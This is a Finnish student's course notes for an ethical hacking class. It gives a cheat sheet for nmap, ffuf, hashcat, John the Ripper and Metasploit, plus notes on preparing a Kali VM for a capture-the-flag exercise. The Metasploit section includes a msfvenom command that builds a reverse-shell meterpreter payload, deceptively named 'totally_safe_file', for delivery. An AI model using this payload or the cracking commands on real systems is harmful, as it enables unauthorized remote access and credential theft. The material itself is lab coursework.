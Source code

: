 # H6 - Lähtölaskenta

Tehtävänannot luettavissa https://terokarvinen.com/2024/eettinen-hakkerointi-2024/

## A) Cheat Sheet

### Nmap 

- ``$ sudo nmap [asetukset] [kohde]``
  - ``-sS``: TCP-send skannaus (half-open connection). Palvelimen avoimien porttien ilmoituksiin ei lähetetä vastauksia.
  - ``-A``: Aggressiivinen skannaus
  - ``-p0-65535``: portit
   
### Ffuf

 - Kalissa sanakirjoja /usr/share/seclists
 - ``$ ./fuff -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://127.0.0.2:8000/FUZZ``
 - ``-ac``: autocalibrate
   - Manuaalisesti ``-fs``: filesize
 - ``-recursion``: skannaa myös löydetyt hakemistot
 - ``-e .log``: etsittävä tiedostomuoto
 -  ``-rate 2``: hakuja sekunnissa
 - ``-H "Host: FUZZ.ffuf.me"``

### Hashcat

 - ``$ hashid -m [hash]``
   - Todennäköisesti joku listan top3 tyypistä
 - ``$ hashcat -m [hashcat mode] '[hash]' -o ratkaistu.txt``

### John the ripper

 - Kaksiosainen: ``$ /john/run/zip2john testi.zip >testi.zip.hash`` & ``/john/run/john testi.zip.hash``

### Msf

 - ``$ sudo systemctl start postgresql``, ``$ msfdb init``, ``$ sudo msfconsole``
 - ``db_nmap``
 - ``services``
 - ``msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST="192.168.57.102" LPORT=1337 -f elf  > totally_safe_file``, ``$ chmod ugo+x totally_safe_file`` ennen toimitusta

### Yleiskomennot

 - ``$ script -fa log001.txt``

Lähde: https://github.com/aatuhorelli/tunkeutumistestaus/


## C) Valmiina lipunryöstöön

Loin uuden virtuaalikoneen Kali Linuxilla. Asensin ja tein tarvittaessa esikonfiguraatiot oletettavasti tarvitsemilleni ohjelmille:

 - Nmap
 - Hashid
 - Hashcat
 - John the Ripper
 - Metasploit Framework & PostgreSQL
 - Docker
 - OWASP ZAP & FoxyProxy
